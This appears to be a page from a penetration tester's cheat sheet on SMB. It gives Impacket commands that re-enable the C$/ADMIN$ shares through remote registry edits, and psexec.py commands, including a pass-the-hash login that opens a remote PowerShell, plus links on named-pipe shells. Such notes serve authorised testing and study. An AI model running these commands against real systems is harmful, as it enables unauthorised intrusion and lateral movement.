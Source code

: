 ```yaml
---
description: Server Message Block
---
```


# SMB

Enable `C$` / `ADMIN$` shares remotely with Impacket:

```
$ reg.py Administrator:'Passw0rd!'@192.168.1.11 add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters' -v 'AutoShareServer' -vt REG_DWORD -vd 1
$ reg.py Administrator:'Passw0rd!'@192.168.1.11 add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters' -v 'AutoShareWks' -vt REG_DWORD -vd 1
$ services.py Administrator:'Passw0rd!'@192.168.1.11 stop -name lanmanserver
$ services.py Administrator:'Passw0rd!'@192.168.1.11 start -name lanmanserver
```




## Named Pipes

- [https://github.com/malcomvetter/CSExec](https://github.com/malcomvetter/CSExec)
- [https://v1k1ngfr.github.io/fuegoshell/](https://v1k1ngfr.github.io/fuegoshell/)
- [https://github.com/v1k1ngfr/fuegoshell/](https://github.com/v1k1ngfr/fuegoshell/)
- [https://github.com/trustedsec/The_Shelf/tree/main/POC/impacketremoteshell](https://github.com/trustedsec/The_Shelf/tree/main/POC/impacketremoteshell)



### PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://web.archive.org/web/20220517171437/https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)
* [https://sensepost.com/blog/2025/psexecing-the-right-way-and-why-zero-trust-is-mandatory/](https://sensepost.com/blog/2025/psexecing-the-right-way-and-why-zero-trust-is-mandatory/)
* [https://github.com/sensepost/susinternals/blob/main/psexecsvc.py](https://github.com/sensepost/susinternals/blob/main/psexecsvc.py)


#### psexec.py

```
$ psexec.py snovvcrash:'Passw0rd!'@192.168.11.1
$ rlwrap -cAr psexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 megacorp.local/snovvcrash@192.168.11.1 powershell
```
